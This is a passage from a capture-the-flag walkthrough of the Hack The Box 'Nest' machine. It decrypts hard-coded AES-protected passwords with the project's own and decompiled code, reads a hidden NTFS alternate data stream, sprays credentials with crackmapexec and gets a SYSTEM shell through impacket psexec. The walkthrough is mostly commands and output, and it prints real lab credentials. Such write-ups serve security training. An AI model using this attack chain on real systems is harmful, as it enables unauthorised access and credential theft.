getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Resources.resx of size 5612 as VB Projects/WIP/RU/RUScanner/My Project/Resources.resx (17.9 KiloBytes/sec) (average 5.2 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Settings.Designer.vb of size 2989 as VB Projects/WIP/RU/RUScanner/My Project/Settings.Designer.vb (9.8 KiloBytes/sec) (average 5.5 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Settings.settings of size 279 as VB Projects/WIP/RU/RUScanner/My Project/Settings.settings (0.9 KiloBytes/sec) (average 5.2 KiloBytes/sec)
```

```
$ cat VB\ Projects/WIP/RU/RUScanner/Module1.vb 
Module Module1

    Sub Main()
        Dim Config As ConfigFile = ConfigFile.LoadFromFile("RU_Config.xml")
        Dim test As New SsoIntegration With {.Username = Config.Username, .Password = Utils.DecryptString(Config.Password)}
    End Sub

End Module
```


```
$ cat VB\ Projects/WIP/RU/RUScanner/Utils.vb  
Imports System.Text
Imports System.Security.Cryptography
Public Class Utils

    Public Shared Function GetLogFilePath() As String
        Return IO.Path.Combine(Environment.CurrentDirectory, "Log.txt")
    End Function

    Public Shared Function DecryptString(EncryptedString As String) As String
        If String.IsNullOrEmpty(EncryptedString) Then
            Return String.Empty
        Else
            Return Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)
        End If
    End Function

    Public Shared Function EncryptString(PlainString As String) As String
        If String.IsNullOrEmpty(PlainString) Then
            Return String.Empty
        Else
            Return Encrypt(PlainString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)
        End If
    End Function

    Public Shared Function Encrypt(ByVal plainText As String, _
                                   ByVal passPhrase As String, _
                                   ByVal saltValue As String, _
                                    ByVal passwordIterations As Integer, _
                                   ByVal initVector As String, _
                                   ByVal keySize As Integer) _
                           As String

        Dim initVectorBytes As Byte() = Encoding.ASCII.GetBytes(initVector)
        Dim saltValueBytes As Byte() = Encoding.ASCII.GetBytes(saltValue)
        Dim plainTextBytes As Byte() = Encoding.ASCII.GetBytes(plainText)
        Dim password As New Rfc2898DeriveBytes(passPhrase, _
                                           saltValueBytes, _
                                           passwordIterations)
        Dim keyBytes As Byte() = password.GetBytes(CInt(keySize / 8))
        Dim symmetricKey As New AesCryptoServiceProvider
        symmetricKey.Mode = CipherMode.CBC
        Dim encryptor As ICryptoTransform = symmetricKey.CreateEncryptor(keyBytes, initVectorBytes)
        Using memoryStream As New IO.MemoryStream()
            Using cryptoStream As New CryptoStream(memoryStream, _
                                            encryptor, _
                                            CryptoStreamMode.Write)
                cryptoStream.Write(plainTextBytes, 0, plainTextBytes.Length)
                cryptoStream.FlushFinalBlock()
                Dim cipherTextBytes As Byte() = memoryStream.ToArray()
                memoryStream.Close()
                cryptoStream.Close()
                Return Convert.ToBase64String(cipherTextBytes)
            End Using
        End Using
    End Function

    Public Shared Function Decrypt(ByVal cipherText As String, _
                                   ByVal passPhrase As String, _
                                   ByVal saltValue As String, _
                                    ByVal passwordIterations As Integer, _
                                   ByVal initVector As String, _
                                   ByVal keySize As Integer) _
                           As String

        Dim initVectorBytes As Byte()
        initVectorBytes = Encoding.ASCII.GetBytes(initVector)

        Dim saltValueBytes As Byte()
        saltValueBytes = Encoding.ASCII.GetBytes(saltValue)

        Dim cipherTextBytes As Byte()
        cipherTextBytes = Convert.FromBase64String(cipherText)

        Dim password As New Rfc2898DeriveBytes(passPhrase, _
                                           saltValueBytes, _
                                           passwordIterations)

        Dim keyBytes As Byte()
        keyBytes = password.GetBytes(CInt(keySize / 8))

        Dim symmetricKey As New AesCryptoServiceProvider
        symmetricKey.Mode = CipherMode.CBC

        Dim decryptor As ICryptoTransform
        decryptor = symmetricKey.CreateDecryptor(keyBytes, initVectorBytes)

        Dim memoryStream As IO.MemoryStream
        memoryStream = New IO.MemoryStream(cipherTextBytes)

        Dim cryptoStream As CryptoStream
        cryptoStream = New CryptoStream(memoryStream, _
                                        decryptor, _
                                        CryptoStreamMode.Read)

        Dim plainTextBytes As Byte()
        ReDim plainTextBytes(cipherTextBytes.Length)

        Dim decryptedByteCount As Integer
        decryptedByteCount = cryptoStream.Read(plainTextBytes, _
                                               0, _
                                               plainTextBytes.Length)

        memoryStream.Close()
        cryptoStream.Close()

        Dim plainText As String
        plainText = Encoding.ASCII.GetString(plainTextBytes, _
                                            0, _
                                            decryptedByteCount)

        Return plainText
    End Function
End Class
```

If we run the following on .Net we get the password
```
Imports System
Imports System.Text
Imports System.Security.Cryptography
Public Class Utils

    Public Shared Function DecryptString(EncryptedString As String) As String
        If String.IsNullOrEmpty(EncryptedString) Then
            Return String.Empty
        Else
            Return Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)
        End If
    End Function

    Public Shared Function Decrypt(ByVal cipherText As String, _
                                   ByVal passPhrase As String, _
                                   ByVal saltValue As String, _
                                    ByVal passwordIterations As Integer, _
                                   ByVal initVector As String, _
                                   ByVal keySize As Integer) _
                           As String

        Dim initVectorBytes As Byte()
        initVectorBytes = Encoding.ASCII.GetBytes(initVector)

        Dim saltValueBytes As Byte()
        saltValueBytes = Encoding.ASCII.GetBytes(saltValue)

        Dim cipherTextBytes As Byte()
        cipherTextBytes = Convert.FromBase64String(cipherText)

        Dim password As New Rfc2898DeriveBytes(passPhrase, _
                                           saltValueBytes, _
                                           passwordIterations)

        Dim keyBytes As Byte()
        keyBytes = password.GetBytes(CInt(keySize / 8))

        Dim symmetricKey As New AesCryptoServiceProvider
        symmetricKey.Mode = CipherMode.CBC

        Dim decryptor As ICryptoTransform
        decryptor = symmetricKey.CreateDecryptor(keyBytes, initVectorBytes)

        Dim memoryStream As IO.MemoryStream
        memoryStream = New IO.MemoryStream(cipherTextBytes)

        Dim cryptoStream As CryptoStream
        cryptoStream = New CryptoStream(memoryStream, _
                                        decryptor, _
                                        CryptoStreamMode.Read)

        Dim plainTextBytes As Byte()
        ReDim plainTextBytes(cipherTextBytes.Length)

        Dim decryptedByteCount As Integer
        decryptedByteCount = cryptoStream.Read(plainTextBytes, _
                                               0, _
                                               plainTextBytes.Length)

        memoryStream.Close()
        cryptoStream.Close()

        Dim plainText As String
        plainText = Encoding.ASCII.GetString(plainTextBytes, _
                                            0, _
                                            decryptedByteCount)

        Return plainText
    End Function

End Class
				
Public Module Module1
	Public Sub Main()
		Console.WriteLine("Password:")
        Console.WriteLine(Utils.DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE="))
	End Sub
End Module
```

I used a .Net online version and it worked.
https://dotnetfiddle.net/hW0WKw



```
$ crackmapexec smb 10.10.10.178 -u 'C.smith' -p 'xRxRxPANCAK3SxRxRx' --shares
SMB         10.10.10.178    445    HTB-NEST         [*] Windows 6.1 Build 7601 (name:HTB-NEST) (domain:HTB-NEST) (signing:False) (SMBv1:False)
SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\C.smith:xRxRxPANCAK3SxRxRx 
SMB         10.10.10.178    445    HTB-NEST         [+] Enumerated shares
SMB         10.10.10.178    445    HTB-NEST         Share           Permissions     Remark
SMB         10.10.10.178    445    HTB-NEST         -----           -----------     ------
SMB         10.10.10.178    445    HTB-NEST         ADMIN$                          Remote Admin
SMB         10.10.10.178    445    HTB-NEST         C$                              Default share
SMB         10.10.10.178    445    HTB-NEST         Data            READ            
SMB         10.10.10.178    445    HTB-NEST         IPC$                            Remote IPC
SMB         10.10.10.178    445    HTB-NEST         Secure$         READ            
SMB         10.10.10.178    445    HTB-NEST         Users           READ
```

```
$ smbclient //10.10.10.178/Users -U 'C.smith' --password 'xRxRxPANCAK3SxRxRx' 
Try "help" to get a list of possible commands.
smb: \> recurse ON
smb: \> prompt OFF
smb: \> ls
  .                                   D        0  Sat Jan 25 15:04:21 2020
  ..                                  D        0  Sat Jan 25 15:04:21 2020
  Administrator                       D        0  Fri Aug  9 08:08:23 2019
  C.Smith                             D        0  Sat Jan 25 23:21:44 2020
  L.Frost                             D        0  Thu Aug  8 10:03:01 2019
  R.Thompson                          D        0  Thu Aug  8 10:02:50 2019
  TempUser                            D        0  Wed Aug  7 15:55:56 2019

\Administrator
NT_STATUS_ACCESS_DENIED listing \Administrator\*

\C.Smith
  .                                   D        0  Sat Jan 25 23:21:44 2020
  ..                                  D        0  Sat Jan 25 23:21:44 2020
  HQK Reporting                       D        0  Thu Aug  8 16:06:17 2019
  user.txt                            A       34  Sat Oct 29 15:35:01 2022

\L.Frost
NT_STATUS_ACCESS_DENIED listing \L.Frost\*

\R.Thompson
NT_STATUS_ACCESS_DENIED listing \R.Thompson\*

\TempUser
NT_STATUS_ACCESS_DENIED listing \TempUser\*

\C.Smith\HQK Reporting
  .                                   D        0  Thu Aug  8 16:06:17 2019
  ..                                  D        0  Thu Aug  8 16:06:17 2019
  AD Integration Module               D        0  Fri Aug  9 05:18:42 2019
  Debug Mode Password.txt             A        0  Thu Aug  8 16:08:17 2019
  HQK_Config_Backup.xml               A      249  Thu Aug  8 16:09:05 2019

\C.Smith\HQK Reporting\AD Integration Module
  .                                   D        0  Fri Aug  9 05:18:42 2019
  ..                                  D        0  Fri Aug  9 05:18:42 2019
  HqkLdap.exe                         A    17408  Wed Aug  7 16:41:16 2019
```

```
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \Administrator\*
getting file \C.Smith\user.txt of size 34 as C.Smith/user.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
NT_STATUS_ACCESS_DENIED listing \L.Frost\*
NT_STATUS_ACCESS_DENIED listing \R.Thompson\*
NT_STATUS_ACCESS_DENIED listing \TempUser\*
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt of size 0 as C.Smith/HQK Reporting/Debug Mode Password.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \C.Smith\HQK Reporting\HQK_Config_Backup.xml of size 249 as C.Smith/HQK Reporting/HQK_Config_Backup.xml (0.8 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \C.Smith\HQK Reporting\AD Integration Module\HqkLdap.exe of size 17408 as C.Smith/HQK Reporting/AD Integration Module/HqkLdap.exe (44.0 KiloBytes/sec) (average 14.0 KiloBytes/sec)
```


```
$ cat C.Smith/user.txt                      
a433************************ac1a
```

Here we have a trick that is hard to get. The file `Debug Mode Password.txt` is empty, but it has hidden attributes.

```
smb: \> ls C.Smith\"HQK Reporting\Debug Mode Password.txt"
  Debug Mode Password.txt             A        0  Thu Aug  8 16:08:17 2019

                5242623 blocks of size 4096. 1839862 blocks available
smb: \> allinfo C.Smith\"HQK Reporting\Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 04:06:12 PM 2019 PDT
access_time:    Thu Aug  8 04:06:12 PM 2019 PDT
write_time:     Thu Aug  8 04:08:17 PM 2019 PDT
change_time:    Wed Jul 21 11:47:12 AM 2021 PDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
```

```
smb: \> cd "\C.Smith\HQK Reporting"
smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt":Password
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt:Password of size 15 as Debug Mode Password.txt:Password (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

```
$ cat Debug\ Mode\ Password.txt:Password                         
WBQ201953D8w
```

```
$ telnet 10.10.10.178 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

>DEBUG WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
```

```
>setdir C:\Program Files\HQK\LDAP

Current directory set to LDAP
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: LDAP
>showquery 2

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```

Now we need to copy the `HqkLdap.exe` file we got on the C.Smith share to a Windows machine and use a .net IL tool to read the code. I am using `dnSpy`.

We are going to perform similar approach we did before for the other password that was encrypted. We can get the code with the decrypt instructions, move it to a online .net tool, removing the unnecessary parts, and passing the password string we recently got when running it.


This is the final result.
```
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;

	public class CR
	{
		// Token: 0x06000012 RID: 18 RVA: 0x00002278 File Offset: 0x00000678
		public static string DS(string EncryptedString)
		{
			if (string.IsNullOrEmpty(EncryptedString))
			{
				return string.Empty;
			}
			return CR.RD(EncryptedString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256);
		}

		// Token: 0x06000015 RID: 21 RVA: 0x000023DC File Offset: 0x000007DC
		private static string RD(string cipherText, string passPhrase, string saltValue, int passwordIterations, string initVector, int keySize)
		{
			byte[] bytes = Encoding.ASCII.GetBytes(initVector);
			byte[] bytes2 = Encoding.ASCII.GetBytes(saltValue);
			byte[] array = Convert.FromBase64String(cipherText);
			Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(passPhrase, bytes2, passwordIterations);
			checked
			{
				byte[] bytes3 = rfc2898DeriveBytes.GetBytes((int)Math.Round((double)keySize / 8.0));
				ICryptoTransform transform = new AesCryptoServiceProvider
				{
					Mode = CipherMode.CBC
				}.CreateDecryptor(bytes3, bytes);
				MemoryStream memoryStream = new MemoryStream(array);
				CryptoStream cryptoStream = new CryptoStream(memoryStream, transform, CryptoStreamMode.Read);
				byte[] array2 = new byte[array.Length + 1];
				int count = cryptoStream.Read(array2, 0, array2.Length);
				memoryStream.Close();
				cryptoStream.Close();
				return Encoding.ASCII.GetString(array2, 0, count);
			}
		}

		// Token: 0x04000006 RID: 6
		private const string K = "667912";

		// Token: 0x04000007 RID: 7
		private const string I = "1L1SA61493DRV53Z";

		// Token: 0x04000008 RID: 8
		private const string SA = "1313Rf99";
	}


public class Program
{
	public static void Main()
	{
		Console.WriteLine("Password:");
		Console.WriteLine(CR.DS("yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4="));
	}
}
```



```
Password:
XtH4nkS4Pl4y1nGX
```

```
$ cat users.txt
Administrator
C.Smith
TempUser
Service_HQK
```
```                                                             
$ cat passwords.txt
welcome2019
xRxRxPANCAK3SxRxRx
XtH4nkS4Pl4y1nGX
```

```
$ crackmapexec smb 10.10.10.178 -u users.txt -p passwords.txt --continue-on-success
SMB         10.10.10.178    445    HTB-NEST         [*] Windows 6.1 Build 7601 (name:HTB-NEST) (domain:HTB-NEST) (signing:False) (SMBv1:False)
SMB         10.10.10.178    445    HTB-NEST         [-] HTB-NEST\Administrator:welcome2019 STATUS_LOGON_FAILURE 
SMB         10.10.10.178    445    HTB-NEST         [-] HTB-NEST\Administrator:xRxRxPANCAK3SxRxRx STATUS_LOGON_FAILURE 
SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\Administrator:XtH4nkS4Pl4y1nGX (Pwn3d!)
SMB         10.10.10.178    445    HTB-NEST         [-] HTB-NEST\C.Smith:welcome2019 STATUS_LOGON_FAILURE 
SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\C.Smith:xRxRxPANCAK3SxRxRx 
SMB         10.10.10.178    445    HTB-NEST         [-] HTB-NEST\C.Smith:XtH4nkS4Pl4y1nGX STATUS_LOGON_FAILURE 
SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\TempUser:welcome2019 
SMB         10.10.10.178    445    HTB-NEST         [-] HTB-NEST\TempUser:xRxRxPANCAK3SxRxRx STATUS_LOGON_FAILURE 
SMB         10.10.10.178    445    HTB-NEST         [-] HTB-NEST\TempUser:XtH4nkS4Pl4y1nGX STATUS_LOGON_FAILURE 
SMB         10.10.10.178    445    HTB-NEST         [-] HTB-NEST\Service_HQK:welcome2019 STATUS_LOGON_FAILURE 
SMB         10.10.10.178    445    HTB-NEST         [-] HTB-NEST\Service_HQK:xRxRxPANCAK3SxRxRx STATUS_LOGON_FAILURE 
SMB         10.10.10.178    445    HTB-NEST         [-] HTB-NEST\Service_HQK:XtH4nkS4Pl4y1nGX STATUS_LOGON_FAILURE
```




```
$ /usr/share/doc/python3-impacket/examples/psexec.py Administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.178.....
[*] Found writable share ADMIN$
[*] Uploading file bNRiSGnk.exe
[*] Opening SVCManager on 10.10.10.178.....
[*] Creating service luEP on 10.10.10.178.....
[*] Starting service luEP.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


```
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
9d2933ec1a46404375ad6845c3269830
9d29************************9830
```